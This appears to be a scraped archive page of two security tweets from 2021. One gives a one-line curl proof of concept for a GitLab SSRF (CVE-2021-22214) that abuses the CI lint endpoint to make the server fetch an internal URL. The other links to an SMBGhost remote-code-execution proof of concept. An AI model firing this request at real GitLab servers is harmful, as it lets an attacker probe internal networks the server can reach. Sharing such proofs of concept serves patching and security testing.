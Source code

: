 </tr></table>

---

# sec715
**https://twitter.com/sec715/status/1408218852245135362 _at 2021-06-25, 00:21:52_**
<blockquote>
BOOM🔥🔥 Gitlab SSRF (CVE-2021-22214).

POC:
curl -s --show-error -H 'Content-Type: application/json' --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://x.x.x.x/api/v1/targets?test.yml"}' https://REDACTED/api/v4/ci/lint -k

#SSRF #Gitlab #bugbountytips https://t.co/07NnNq6in0
</blockquote>

<table><tr>
<td><img src="pictures/e33a31f1070d9d42382bc03a7faa608f996f9b9d5195134f9e52c2aaa7545c2d.jpg" alt="e33a31f1070d9d42382bc03a7faa608f996f9b9d5195134f9e52c2aaa7545c2d.jpg"></td>
<td><img src="pictures/1b59bddfdeae30e10707f617b28d6aa2653aed833fbf6dced644822ae10a9674.jpg" alt="1b59bddfdeae30e10707f617b28d6aa2653aed833fbf6dced644822ae10a9674.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>197</code></td>
<td>Favorites: <code>490</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1408115718810447878 _at 2021-06-24, 17:32:03_**
<blockquote>
SMBGhost_RCE_PoC 

RCE PoC for CVE-2020-0796  SMBGhost

#redteam #pentest #infosec
https://t.co/lxZaFahG4c https://t.co/euQgudEHtg
</blockquote>
